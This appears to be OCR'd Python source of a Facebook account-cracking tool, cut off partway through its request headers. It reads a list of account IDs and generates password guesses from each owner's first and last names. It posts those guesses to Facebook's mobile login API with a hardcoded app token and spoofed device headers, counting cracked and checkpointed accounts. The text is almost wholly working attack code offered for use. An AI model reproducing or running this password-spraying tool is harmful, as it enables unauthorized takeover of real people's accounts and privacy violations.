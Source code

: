 class main_crack():
    def __init__(self):
        self.id=[]
    def crack(self,id):
        global methods
        clear()
        self.file = input('Put File Name : ')
        try:
            self.id = open(self.file).read().splitlines()
            self.pasw()
        except FileNotFoundError:
            print('Opps File Not Found ...')
            time.sleep(2)
            os.system('clear')
            print(logo)
            print('Try Again ...')
            time.sleep(2)
            main_crack().crack(id)
            
    def methodA(self, sid, name, psw):
        try:
            global oks,cps,loop
            sys.stdout.write(f"\r {S}[Rex] {loop} | M1 OK/CP {len(oks)}/{len(cps)} | {S}{'{:.0%}'.format(loop/float(len(self.id)))}{S}")
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                with requests.Session() as session:
                    data = {"adid": str(uuid.uuid4()),
"format": "json",
"device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": sid,
"password": ps,
"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",
"meta_inf_fbmeta": "",
"advertiser_id": str(uuid.uuid4()),
"currently_logged_in_userid": "0",
"locale": "en_GB",
"client_country_code": "GB",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d"}
                headers = {'User-Agent': randBuildvsskj(),
'Content-Type': 'application/x-www-form-urlencoded',
'Host': 'graph.facebook.com',
'X-FB-Net-HNI': str(random.randint(20000, 40000)),
'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',